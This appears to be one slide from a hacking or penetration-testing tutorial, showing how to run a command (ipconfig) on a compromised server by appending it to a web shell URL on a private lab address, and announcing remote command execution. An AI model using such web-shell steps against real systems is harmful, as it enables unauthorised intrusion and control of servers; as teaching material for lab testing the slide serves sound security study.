

# Executing Commands via Web Shell
•	Append a command to the URL:
•	http://192.168.20.10/shell.php?cmd=ipconfig
•	Expected result:
o	The server will execute ipconfig and display network details.
✅ You now have remote command execution on the target system!
________________________________________